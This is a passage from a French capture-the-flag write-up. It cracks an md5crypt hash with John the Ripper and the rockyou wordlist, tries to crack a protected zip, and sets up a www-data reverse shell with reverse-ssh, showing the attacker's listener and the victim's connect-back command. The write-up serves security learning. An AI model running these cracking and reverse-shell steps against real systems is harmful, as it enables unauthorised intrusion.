 ```console
$ john --wordlist=wordlists/rockyou.txt hash.txt 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Note: Passwords longer than 5 [worst case UTF-8] to 15 [ASCII] rejected
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
wheeler          (staff)     
1g 0:00:00:00 DONE (2025-07-18 23:15) 5.000g/s 66240p/s 66240c/s 66240C/s go2hell..lincoln1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Une fois authentifié, on tombe sur un forum `phpBB`. Je vois par exemple un post avec un fichier zip :

```
Team,

During this critical time, we need to be extra diligent by ensuring we are doing thorough checks.

As discussed in our team meeting, we do not know how the attackers got in currently, but as the account portal is the most dynamic bit of software we are running on our website, we believe the vulnerabilities to exist there, hence taking it offline until we can investigate further.

Sam - thanks for volunteering to help earlier. The network monitoring I told you about is located here: dpi.zip.
I have e-mailed you the password. Let me know as soon as possible if you find anything suspicious; the CEO has asked for an update to ensure the attackers are off our network.

Kind regards,
Terry
Incident Responder
```

Le zip étant protégé par mot de passe, j'ai tenté de le casser (`zip2john` puis `john`) mais le password est robuste.

### GreenWashing

J'ai décidé de valider l'idée selon laquelle il fallait avoir un premier shell avec `www-data` et je me suis servi de `reverse-ssh` en connect back. D'abord, je lance ça sur ma machine :

```console
$ ./reverse-sshx64 -l -p 55555 -v
2025/07/18 23:24:40 Starting ssh server on :55555
2025/07/18 23:24:40 Success: listening on [::]:55555
```

Puis sur la victime :

```bash
./reverse-sshx64 -p 55555 192.168.56.1
```
